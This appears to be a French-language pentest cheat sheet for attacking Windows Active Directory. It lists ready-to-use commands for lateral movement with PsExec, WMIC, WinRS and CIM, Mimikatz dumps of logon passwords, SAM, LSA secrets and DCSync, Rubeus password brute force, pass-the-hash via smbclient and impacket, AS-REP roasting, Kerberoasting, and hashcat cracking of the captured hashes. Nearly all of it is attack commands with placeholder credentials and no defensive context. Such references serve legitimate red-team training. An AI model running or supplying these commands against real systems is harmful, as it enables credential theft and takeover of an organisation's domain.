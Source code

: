 **Mouvement latéral** 

    ./PsExec64.exe -i  \\FILES01 -u DOMAINE\Tim -p Mdp123 powershell.exe
    ----- OU -----
    wmic /node:192.168.100.100 /user:Tim /password:Mdp123 process call create "calc"
    ----- OU -----
    winrs -r:files01 -u:Tim -p:Mdp123  "cmd /c hostname & whoami"
    ----- OU -----
    $username = 'Tim';
    $password = 'Mdp123';
    $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
    $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;

    $options = New-CimSessionOption -Protocol DCOM
    $session = New-CimSession -ComputerName 192.168.100.100 -Credential $credential -SessionOption $Options 
    $command = 'calc';

    Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

**Mimikatz**

    ./mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
    ./mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
    ./mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" "exit"
    ./mimikatz.exe "privilege::debug" "token::elevate" "lsadump::dcsync /user:DOMAINE\Tim"
    
   
**Rubeus**

    ./Rubeus.exe asreproast /nowrap
    ./Rubeus.exe brute /password:Mdp123 /noticket
    ./Rubeus.exe kerberoast /outfile:hashes.kerberoast
    
**Pass the Hash** 

    smbclient //192.168.100.100/share -U Tim --pw-nt-hash xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
    ----- OU -----
    impacket-psexec -hashes 00000000000000000000000000000000:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx Tim@192.168.100.100 powershell.exe
    ----- OU -----
    impacket-wmiexec -hashes 00000000000000000000000000000000:xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx Tim@192.168.100.100

**AS-REP Roasting** 

    impacket-GetNPUsers -dc-ip 192.168.100.100 -request -OutputFile asreproast.txt DOMAINE/Tim
    ----- OU -----
    C:\tools\Rubeus.exe asreproast /nowrap
    ...
    hashcat -m 18200 asreproast.txt /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

**Kerberoasting**

    impacket-GetUserSPNs -request -dc-ip 192.168.100.100 DOMAINE/Tim
    ----- OU -----
    .\Rubeus.exe kerberoast /outfile:hashes.kerberoast
    ...
    sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force

